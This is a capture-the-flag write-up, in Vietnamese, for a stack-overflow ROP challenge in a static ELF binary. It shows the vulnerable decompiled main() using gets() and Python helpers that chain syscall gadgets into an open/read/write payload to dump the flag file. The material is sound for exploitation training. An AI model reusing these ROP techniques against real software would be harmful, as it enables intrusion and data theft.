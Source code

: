 ```cs
ploi@PhuocLoiiiii:~/pwn/ROP/tamu_ctf$ file one-and-done
one-and-done: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped
```

- nhìn qua thì thấy đây là 1 bài rop bình thường và có cả puts , tuy nhiên thì file này là 1 file static nên ta không thể leak libc và lấy shell như bình thườnng được

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[128]; // [rsp+0h] [rbp-120h] BYREF
  sigaction sa; // [rsp+80h] [rbp-A0h] BYREF

  memset(&sa, 0LL, sizeof(sa));
  sa.sa_handler = (void (*)(int))handler;
  sa.sa_flags = 4;
  sigaction_0(11, &sa, 0LL);
  puts("pwn me pls");
  gets(s);
  return 0;
}
```

### cách 1 : open + read + write
- đầu tiên đơn giản là read chuỗi path vào bss , tiếp theo là open read writewrite

```cs
def read(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret) + p64(exe.sym.main)
    return pl

def read_flag(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl

#       const char *filename, int flags, umode_t mode
def open(filename,flags=0,mode=0):
    pl = p64(pop_rax) + p64(2)
    pl += p64(pop_rdi) + p64(filename)
    pl += p64(pop_rsi) + p64(flags)
    pl += p64(pop_rdx) + p64(mode)
    pl += p64(syscall_ret)
    return pl
# unsigned int fd, const char *buf, size_t count
def write(writable,fd=1,count=0x100):
    pl = p64(pop_rax) + p64(fd)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl
```
